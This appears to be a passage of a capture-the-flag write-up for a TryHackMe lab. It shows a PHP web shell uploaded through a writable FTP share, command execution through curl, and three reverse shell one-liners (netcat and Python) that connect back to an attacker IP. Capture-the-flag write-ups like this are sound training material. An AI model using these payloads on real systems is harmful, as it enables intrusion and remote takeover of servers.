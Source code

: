 Well this looks interesting as this contains the files and folders from FTP service. If we have a write permission on that FTP server, we can upload a PHP script on the webserver.

## Revisiting FTP
### Content of shell.php
```console
local@local:~/Documents/tryhackme/startup$ cat shell.php 
<?php
echo "hello";
echo system($_GET['cmd']);
?>
```

### Uploading the file to the FTP server
```console
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
50 bytes sent in 0.00 secs (542.5347 kB/s)
```
And the file is successfully written.

### Checking the webserver
![3](/assets/images/thm/startup/3.png)
And the file is reflected there too. NICE!!!

## Running commands on the system
```console
local@local:~/Documents/tryhackme/startup$ curl http://10.10.169.81/files/ftp/shell.php?cmd=id
hellouid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
And we get code execution. Now we can try and get a reverse shell, so that it would be easier to work with.

## Getting a reverse shell
### Reverse shell payloads
```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 9001 >/tmp/f

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```